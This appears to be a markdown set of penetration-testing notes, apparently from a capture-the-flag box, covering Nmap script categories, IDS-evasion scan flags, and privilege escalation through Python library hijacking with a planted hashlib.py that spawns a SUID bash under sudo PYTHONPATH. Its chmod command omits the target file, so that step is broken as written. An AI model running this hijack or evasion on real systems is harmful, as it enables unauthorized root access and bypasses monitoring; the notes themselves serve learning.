 ##### Nmap Script Scan Types:
```
    safe:- Won't affect the target
    intrusive:- Not safe: likely to affect the target
    vuln:- Scan for vulnerabilities
    exploit:- Attempt to exploit a vulnerability
    auth:- Attempt to bypass authentication for running services (e.g. Log into an FTP server anonymously)
    brute:- Attempt to bruteforce credentials for running services
    discovery:- Attempt to query running services for further information about the network (e.g. query an SNMP server).
```

##### Nmap default Scripts 
```
/usr/share/nmap/scripts/script.db
```

##### Firewall Evasion With Nmap
```
##### Nmap SYN Scan
During this scan only half packet is sent and reset flag is sent at end. This allows attacker to bypass old IDS.

-pN [Continues Scanning even if the host is not responding to ICMP packet]
-f [Breaks packet into fragments of Packets]
--scan-delay <time>ms [USeful if the network is unstable]
```

##### Privilege Escalation Via Python Library Hijacking
```
Vulnerable hashlib.py
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()


```

Here, we dont have write permission on the hashlib.py file but have write perm in the library hashlib

#### Create following file in /tmp directory with SUID flag set
```
hashlib.py
#!/usr/bin/env python3

import os
os.system("cp /bin/bash /tmp/bash; chmod +s; /tmp/bash")

```

##### sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py

<!--- https://hashes.com/en/decrypt/hash
https://hashcat.net/wiki/doku.php?id=example_hashes 
--->
